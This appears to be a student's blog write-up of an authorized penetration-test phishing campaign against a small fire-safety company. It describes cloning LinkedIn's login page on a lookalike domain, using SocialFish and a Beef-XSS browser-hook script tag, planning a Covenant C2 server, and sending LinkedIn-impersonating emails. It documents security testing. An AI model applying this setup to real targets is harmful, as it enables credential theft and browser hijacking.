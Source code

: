 ```yaml
---
layout: single
title: Hoefnagels - phishing campaign
---
```


The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS

| ![First droplet](../../assets/img/phishing/droplet_1.png) |
| First droplet |

We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.

| ![SocialFish](../../assets/img/phishing/socialfish.png) |
| SocialFish |

I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```

| ![Beef](../../assets/img/phishing/beef.png) |
| Beef |

Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website

| ![Blocked domain](../../assets/img/phishing/domain_blocked.png) |
| Blocked domain |

However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_

| ![Firewall rules](../../assets/img/phishing/firewall.png) |
| Firewall rules |

The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

We had two phishing scenarios we planned to execute:

1. Sending a fake job application on their website with a link to our SocialFish server, disguised as a fake LinkedIn page.
2. Sending an email from our `linkedllin.ml` domain that imitates an email from LinkedIn.

For the job application scenario, we decided to apply to the job posting on their website at
_[this url](https://werkenbijhoefnagels.nl/sollicitatieformulier/114/sollicitatieformulier-1ste-Monteur-Meewerkend-Voorman-Montage-buitendienst/)_.
While Georgi created a fake LinkedIn account, I deployed the infrastructure and connected both SocialFish and Beef-XSS together. We sent the job
application and awaited their response.

| ![Landing page](../../assets/img/phishing/linkedllin.ml.png) |
| Landing page |

| ![Profile](../../assets/img/phishing/profile.png) |
| Profile |

While waiting for their answer, we decided to send messages to email addresses that we found during the OSINT phase. We tried deploying an email server
on our DigitalOcean virtual machine using [Mailcow](https://mailcow.email). However, due to security reasons, new accounts are not allowed to use port 25 to send emails.
Therefore, we have decided to use the following address: `noreply.linkedllin.ml@gmail.com`

| ![Phishing email](../../assets/img/phishing/phishing_email.png) |
| Phishing email |

This fake email impersonating LinkedIn emails was sent to the email addresses of the employees. However, majority of the emails were either blocked or non-existent.

| ![Email blocked](../../assets/img/phishing/msg_blocked.png) |
| Email blocked |

### Conclusions

The phishing campaign has had its ups and downs. Not only did we not manage to send mass emails to all employes, nobody was gullible enough to input their credentials
into our fake landing page. This can be broken down into two conclusions:

**Conducting a successful phishing campaign is a hard task.**

It requires good knowledge of managing IT infrastructure, such as firewalls, ssl certificates, DNS and email servers. Moreover fake domains can be easily targeted by the web
crawlers and flagged as malicious. And on top of that, the goal of these extensive preparations is to trick somebody into inputting their credentials on a fake webstie.

**Hoefnagels employees are phishing conscious.**

Throughout the pen test, we kept in contact with the company. Even before we started our campaign, we heard that the employees reported that they started receiving
suspicious emails. The security assessment was kept secret, so the employees didn't fall for an actual attack. Our methods were a bit less successful and a bit more subtle,
but they still didn't fall for that.

All in all, I believe that if our group had more time to prepare for the phishing campaign (month or two), we would have been able to create a trusted email server,
conduct an  extensive OSINT and execute a mass mailing attack.
